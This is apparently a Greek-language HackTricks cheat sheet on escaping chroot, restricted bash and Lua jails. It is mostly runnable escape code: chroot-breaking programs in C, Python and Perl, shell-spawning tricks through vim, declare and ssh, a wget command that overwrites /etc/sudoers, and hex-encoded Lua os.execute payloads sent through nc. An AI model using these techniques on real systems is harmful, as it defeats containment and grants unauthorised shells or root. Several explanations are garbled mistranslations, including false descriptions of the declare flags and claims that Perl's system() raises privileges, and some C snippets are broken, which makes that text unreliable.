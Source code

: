 # Escaping from Jails

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## **GTFOBins**

**Αναζητήστε στο** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **αν μπορείτε να εκτελέσετε οποιοδήποτε δυαδικό αρχείο με ιδιότητα "Shell"**

## Απόδραση από το Chroot

Από την [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Ο μηχανισμός chroot **δεν προορίζεται για να προστατεύει** από πρόθεσης παρεμβολή από **προνομιούχους** (**root**) **χρήστες**. Στις περισσότερες συστάσεις, οι περιβάλλοντα chroot δεν στοιβάζονται σωστά και τα προγράμματα που εκτελούνται μέσα σε ένα chroot με επαρκή δικαιώματα μπορούν να εκτελέσουν ένα δεύτερο chroot για να διαφύγουν.\
Συνήθως αυτό σημαίνει ότι για να διαφύγετε πρέπει να είστε root μέσα στο chroot.

{% hint style="success" %}
Το **εργαλείο** [**chw00t**](https://github.com/earthquake/chw00t) δημιουργήθηκε για να καταχραστεί τα παρακάτω σενάρια και να διαφύγει από το `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Εάν είστε **root** μέσα σε ένα chroot μπορείτε να **διαφύγετε** δημιουργώντας **ένα άλλο chroot**. Αυτό συμβαίνει επειδή δύο chroots δεν μπορούν να υπάρχουν ταυτόχρονα (στο Linux), οπότε αν δημιουργήσετε ένα φάκελο και στη συνέχεια **δημιουργήσετε ένα νέο chroot** σε αυτόν τον νέο φάκελο ενώ **είστε έξω από αυτόν**, τότε θα βρίσκεστε **έξω από το νέο chroot** και, συνεπώς, θα βρίσκεστε στο σύστημα αρχείων.

Αυτό συμβαίνει επειδή συνήθως το chroot ΔΕΝ μετακινεί τον τρέχοντα κατάλογο εργασίας στον καθορισμένο, οπότε μπορείτε να δημιουργήσετε ένα chroot αλλά να είστε έξω από αυτόν.
{% endhint %}

Συνήθως δεν θα βρείτε το δυαδικό αρχείο `chroot` μέσα σε ένα chroot jail, αλλά **μπορείτε να το μεταγλωττίσετε, να το ανεβάσετε και να το εκτελέσετε**:

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("chroot-dir", 0755); chroot("chroot-dir"); for(int i = 0; i < 1000; i++) { chdir(".."); } chroot("."); system("/bin/bash"); }

````
</details>

<details>

<summary>Πυθώνας</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
````

</details>

<details>

<summary>Perl</summary>

Η γλώσσα προγραμματισμού Perl είναι ιδανική για την απόδραση από περιορισμένα περιβάλλοντα bash. Μπορείτε να χρησιμοποιήσετε την εντολή `system` για να εκτελέσετε εντολές bash από το Perl script. Αυτό σας επιτρέπει να αποκτήσετε προνόμια υψηλότερου επιπέδου και να δραπετεύσετε από τον περιορισμένο bash shell.

Παρακάτω παρουσιάζεται ένα παράδειγμα Perl script που χρησιμοποιεί την εντολή `system` για να εκτελέσει μια εντολή bash:

```perl
#!/usr/bin/perl

system("/bin/bash -c 'command'");
```

Αντικαταστήστε τη λέξη "command" με την εντολή bash που θέλετε να εκτελέσετε. Όταν εκτελέσετε αυτό το Perl script, θα εκτελεστεί η εντολή bash και θα έχετε πρόσβαση σε προνόμια υψηλότερου επιπέδου.

</details>

\`\`\`perl #!/usr/bin/perl mkdir "chroot-dir"; chroot "chroot-dir"; foreach my $i (0..1000) { chdir ".." } chroot "."; system("/bin/bash"); \`\`\`

### Root + Αποθηκευμένο fd

{% hint style="warning" %}
Αυτό είναι παρόμοιο με την προηγούμενη περίπτωση, αλλά σε αυτή την περίπτωση ο **επιτιθέμενος αποθηκεύει έναν αριθμό αναγνωριστικού αρχείου (file descriptor) στον τρέχοντα φάκελο** και στη συνέχεια **δημιουργεί το chroot σε ένα νέο φάκελο**. Τελικά, καθώς έχει **πρόσβαση** σε αυτόν τον **FD έξω από το chroot**, μπορεί να τον χρησιμοποιήσει για να **δραπετεύσει**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd); for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (Unix Domain Sockets)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

Το FD μπορεί να περάσει μέσω Unix Domain Sockets, οπότε:

* Δημιουργήστε ένα διεργασία παιδί (fork)
* Δημιουργήστε UDS ώστε ο γονέας και το παιδί να μπορούν να επικοινωνούν
* Εκτελέστε το chroot στη διεργασία παιδί σε έναν διαφορετικό φάκελο
* Στη διεργασία γονέα, δημιουργήστε ένα FD ενός φακέλου που βρίσκεται έξω από το chroot της νέας διεργασίας παιδιού
* Περάστε στη διεργασία παιδί αυτό το FD χρησιμοποιώντας το UDS
* Η διεργασία παιδί αλλάζει τον τρέχοντα φάκελο σε αυτόν τον FD και επειδή βρίσκεται έξω από το chroot της, θα δραπετεύσει από τη φυλακή

</div>

### &#x20;Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Τοποθετήστε τη ρίζα της συσκευής (/) σε έναν κατάλογο μέσα στο chroot
* Εκτελέστε το chroot σε αυτόν τον κατάλογο

Αυτό είναι δυνατό στο Linux

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Τοποθετήστε το procfs σε έναν κατάλογο μέσα στο chroot (αν δεν υπάρχει ήδη)
* Αναζητήστε ένα pid που έχει μια διαφορετική καταχώρηση root/cwd, όπως: /proc/1/root
* Εκτελέστε το chroot σε αυτήν την καταχώρηση

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Δημιουργήστε ένα Fork (διεργασία παιδί) και εκτελέστε το chroot σε έναν διαφορετικό φάκελο πιο βαθιά στο σύστημα αρχείων και αλλάξτε τον τρέχοντα φάκελο σε αυτόν
* Από τη διεργασία γονέα, μετακινήστε τον φάκελο όπου βρίσκεται η διεργασία παιδί σε έναν φάκελο προηγούμενο του chroot των παιδιών
* Αυτή η διεργασία παιδί θα βρεθεί έξω από το chroot

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Παλαιότερα, οι χρήστες μπορούσαν να εντοπίζουν σφάλματα στις δικές τους διεργασίες από μια διεργασία του ίδιου τους... αλλά αυτό δεν είναι πλέον δυνατό από προεπιλογή
* Παρόλα αυτά, αν είναι δυνατό, μπορείτε να εντοπίσετε σφάλματα σε μια διεργασία και να εκτελέσετε ένα shellcode μέσα σε αυτήν ([δείτε αυτό το παράδειγμα](linux-capabilities.md#cap\_sys\_ptrace)).

</div>

## Φυλακές Bash

### Απαρίθμηση

Λάβετε πληροφορίες σχετικά με τη φυλακή:
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

#### Τροποποίηση του PATH

Ελέγξτε αν μπορείτε να τροποποιήσετε τη μεταβλητή περιβάλλοντος PATH.

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

#### Χρήση του vim

Ο επεξεργαστής κειμένου vim είναι ένας ισχυρός επεξεργαστής κειμένου που μπορεί να χρησιμοποιηθεί για να εκτελέσετε ορισμένες ενέργειες προνομιούχου ανόδου. Ακολουθούν μερικές τεχνικές που μπορείτε να χρησιμοποιήσετε με το vim:

1. Εκτέλεση εντολών shell: Μπορείτε να εκτελέσετε εντολές shell από το vim χρησιμοποιώντας την εντολή `:!`. Για παράδειγμα, μπορείτε να εκτελέσετε την εντολή `:!id` για να εμφανίσετε την ταυτότητα του χρήστη που εκτελεί το vim.
2. Εκτέλεση εντολών με δικαιώματα ρίζας: Αν έχετε πρόσβαση στον λογαριασμό ρίζας, μπορείτε να εκτελέσετε εντολές με δικαιώματα ρίζας από το vim. Χρησιμοποιήστε την εντολή `:!!` για να εκτελέσετε την τελευταία εντολή με δικαιώματα ρίζας.
3. Εκτέλεση εντολών με τοπικά δικαιώματα χρήστη: Μπορείτε επίσης να εκτελέσετε εντολές με τα δικαιώματα του τρέχοντος χρήστη. Χρησιμοποιήστε την εντολή `:sh` για να ανοίξετε ένα νέο παράθυρο shell με τα δικαιώματα του τρέχοντος χρήστη.

Αυτές είναι μερικές από τις βασικές τεχνικές που μπορείτε να χρησιμοποιήσετε με το vim για να εκτελέσετε ενέργειες προνομιούχου ανόδου. Θυμηθείτε πάντα να χρησιμοποιείτε αυτές τις τεχνικές με προσοχή και μόνο όταν έχετε την απαραίτητη άδεια.

```bash
:set shell=/bin/sh
:shell
```

#### Δημιουργία σεναρίου

Ελέγξτε αν μπορείτε να δημιουργήσετε ένα εκτελέσιμο αρχείο με περιεχόμενο _/bin/bash_.

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

#### Πάρτε το bash από το SSH

Εάν έχετε πρόσβαση μέσω ssh, μπορείτε να χρησιμοποιήσετε αυτό το κόλπο για να εκτελέσετε ένα κέλυφος bash:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

#### Δήλωση

Η δήλωση `declare` χρησιμοποιείται για να ορίσει μεταβλητές και να τους αναθέσει τιμές. Μπορεί επίσης να χρησιμοποιηθεί για να ορίσει τις ιδιότητες μιας μεταβλητής, όπως τον τύπο δεδομένων και την εμβέλειά της.

Η σύνταξη για τη δήλωση μιας μεταβλητής είναι η εξής:

```bash
declare [-aAfFgilnrtux] [-p] [name[=value]]
```

Οι επιλογές που μπορούν να χρησιμοποιηθούν με τη δήλωση `declare` περιλαμβάνουν:

* `-a`: Δηλώνει μια μεταβλητή ως πίνακα.
* `-A`: Δηλώνει μια μεταβλητή ως συσχετισμένο πίνακα.
* `-f`: Δηλώνει μια μεταβλητή ως συνάρτηση.
* `-F`: Δηλώνει μια μεταβλητή ως συνάρτηση που είναι προσβάσιμη μόνο για ανάγνωση.
* `-g`: Δηλώνει μια μεταβλητή ως παγκόσμια.
* `-i`: Δηλώνει μια μεταβλητή ως αναφορά σε μια μεταβλητή περιβάλλοντος.
* `-l`: Δηλώνει μια μεταβλητή ως τοπική.
* `-n`: Δηλώνει μια μεταβλητή ως αριθμητική.
* `-r`: Δηλώνει μια μεταβλητή ως μόνο για ανάγνωση.
* `-t`: Δηλώνει μια μεταβλητή ως πίνακα με αριθμητικές τιμές.
* `-u`: Δηλώνει μια μεταβλητή ως ανεπανάληπτη.
* `-x`: Δηλώνει μια μεταβλητή ως εξαγωγή για το περιβάλλον.

Μπορείτε επίσης να χρησιμοποιήσετε την επιλογή `-p` για να εμφανίσετε τις ιδιότητες μιας μεταβλητής.

Παραδείγματα:

```bash
declare -a my_array
declare -i my_number=10
declare -r readonly_var="This variable is read-only"
declare -x exported_var="This variable is exported"
declare -p my_array
```

Η παραπάνω δήλωση θα δημιουργήσει έναν πίνακα με το όνομα `my_array`, μια αριθμητική μεταβλητή με το όνομα `my_number` και τιμή 10, μια μεταβλητή μόνο για ανάγνωση με το όνομα `readonly_var` και μια εξαγόμενη μεταβλητή με το όνομα `exported_var`. Η επιλογή `-p` θα εμφανίσει τις ιδιότητες του πίνακα `my_array`.

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

#### Wget

Μπορείτε να αντικαταστήσετε, για παράδειγμα, το αρχείο sudoers.

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

#### Άλλα κόλπα

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Ενδιαφέρουσα μπορεί να είναι επίσης η σελίδα:**

### Python Jails

Κόλπα για τη διαφυγή από τα python jails στην ακόλουθη σελίδα:

### Lua Jails

Σε αυτήν τη σελίδα μπορείτε να βρείτε τις παγκόσμιες συναρτήσεις στις οποίες έχετε πρόσβαση μέσα στο lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Αξιολόγηση με εκτέλεση εντολής:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

Μερικά κόλπα για να **καλέσετε συναρτήσεις ενός βιβλιοθηκών χωρίς να χρησιμοποιήσετε τελείες**:

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

Απαριθμήστε τις λειτουργίες ενός βιβλιοθηκών:

```bash
for k,v in pairs(string) do print(k,v) end
```

Σημείωση ότι κάθε φορά που εκτελείτε την προηγούμενη μια γραμμή σε ένα **διαφορετικό περιβάλλον lua η σειρά των συναρτήσεων αλλάζει**. Επομένως, αν χρειάζεστε να εκτελέσετε μια συγκεκριμένη συνάρτηση, μπορείτε να πραγματοποιήσετε μια επίθεση με βία φορτώνοντας διάφορα περιβάλλοντα lua και καλώντας την πρώτη συνάρτηση της βιβλιοθήκης le:

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**Αποκτήστε διαδραστικό κέλυφος lua**: Εάν βρίσκεστε μέσα σε ένα περιορισμένο κέλυφος lua, μπορείτε να αποκτήσετε ένα νέο κέλυφος lua (και ελπίζουμε απεριόριστο) καλώντας:

```bash
debug.debug()
```

### Αναφορές

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Διαφάνειες: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))



</details>
